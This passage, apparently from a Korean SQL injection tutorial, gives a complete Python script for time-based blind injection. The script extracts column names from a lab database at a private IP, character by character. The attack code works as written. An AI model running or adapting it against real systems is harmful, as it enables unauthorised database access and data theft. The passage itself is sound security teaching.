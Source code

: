 다시 SUBSTR로 문자열을 하나씩 확인한다.

```py
QUERY   = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA=\'test\' AND TABLE_NAME=\'user\' LIMIT {i},1),{j+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

다음의 Full Code로 모든 컬럼의 이름을 확인해보자.

```py
import requests
import string
import time

TARGET          = 'http://192.168.0.58/index.php'
SLEEP_TIME      = 0.5
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'\' OR IF((SELECT COUNT(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA=\'test\' AND TABLE_NAME=\'user\')={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    START_TIME  = time.time()
    REQUEST     = requests.get(url=URL)
    END_TIME    = time.time()
    if END_TIME - START_TIME > SLEEP_TIME:
        RESULT_LENGTH = i
        break
print(f'Number of columns : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    COLUMN_NAME_LENGTH    = 0
    COLUMN_NAME           = ''
    for j in range(100):
        QUERY       = requests.utils.quote(f'\' OR IF(LENGTH((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA=\'test\' AND TABLE_NAME=\'user\' LIMIT {i},1))={j},SLEEP({SLEEP_TIME}),SLEEP(0))#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        START_TIME  = time.time()
        REQUEST     = requests.get(url=URL)
        END_TIME    = time.time()
        if END_TIME - START_TIME > SLEEP_TIME: COLUMN_NAME_LENGTH = j
    for j in range(COLUMN_NAME_LENGTH):
        for s in string.printable.strip():
            QUERY   = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA=\'test\' AND TABLE_NAME=\'user\' LIMIT {i},1),{j+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
            URL     = TARGET + f'?userid={QUERY}&password=123'
            START_TIME  = time.time()
            REQUEST     = requests.get(url=URL)
            END_TIME    = time.time()
            if END_TIME - START_TIME > SLEEP_TIME: COLUMN_NAME += s
    print(f'{COLUMN_NAME}')
```
